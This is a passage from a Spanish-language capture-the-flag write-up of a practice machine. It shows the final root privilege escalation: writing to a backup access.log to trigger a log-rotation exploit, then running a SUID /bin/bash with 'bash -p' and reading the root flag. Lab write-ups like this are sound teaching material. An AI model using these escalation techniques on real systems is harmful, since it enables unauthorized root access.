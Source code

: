 ```
reader@book:~$ cd backups/
reader@book:~/backups$ echo "a" > access.log
```
Una vez añadido lo que sea, en la otra consola, donde lanzamos el comando, nos saldrá **Done!**.
```
reader@book:/dev/shm$ ls -l /bin/bash
-rwsr-xr-x 1 root root 1113504 Apr  4  2018 /bin/bash
reader@book:/dev/shm$ bash -p
bash-4.4# id
uid=1000(reader) gid=1000(reader) euid=0(root) groups=1000(reader)
bash-4.4# cat /root/root.txt
ca7749cce3ea35441d016ee*******
```
Y hecho!!!, ha estado guay la máquina. Tuve dos problemas con la matrix, así llamo a cuando no sé que cojones pasa porque parece estar todo bien y no funciona. El primer problema fue con el SQL Truncation porque se salía la cuenta del admin y no me dejaba volver a entrar, y el segundo la con la id_rsa, se mostraba el mensaje de id_rsa invalid format. Algo debía estar mal..Volvi a sacar la id_rsa copiar y pegar unas cuantas veces y al final salió, misterios..

